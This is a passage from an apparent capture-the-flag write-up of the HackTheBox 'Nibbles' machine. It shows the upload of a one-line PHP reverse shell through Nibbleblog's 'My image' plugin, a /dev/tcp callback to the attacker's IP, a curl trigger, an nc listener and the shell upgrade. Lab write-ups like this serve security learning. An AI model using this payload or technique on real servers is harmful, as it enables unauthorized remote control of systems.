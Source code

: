 `My image` is the only plugin that allows user to upload files with no extension limits

![](/assets/obsidian/e00890a2950c181500d62a910829aa54.png)

Upload a php revshell

> `rev.php`

```php
<?php system("/bin/bash -c 'bash -i > /dev/tcp/10.10.16.13/1111 0>&1'"); ?>
```

Although it gave some errors, but the revshell still works

![](/assets/obsidian/b15597e2395d2387f94c6b01c5377d63.png)

```bash
┌──(bravosec㉿fsociety)-[~/htb/Nibbles]
└─$ curl nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/Nibbles]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.10.16.13] from (UNKNOWN) [10.129.63.157] 59882
python3 -c 'import pty; pty.spawn("/bin/bash")'
nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$

nibbler@Nibbles:/var/www/html/nibbleblog/content/private/plugins/my_image$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(bravosec㉿fsociety)-[~/htb/Nibbles]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

<ml/nibbleblog/content/private/plugins/my_image$ export TERM=xterm
<ml/nibbleblog/content/private/plugins/my_image$ stty rows 200 columns 200
```
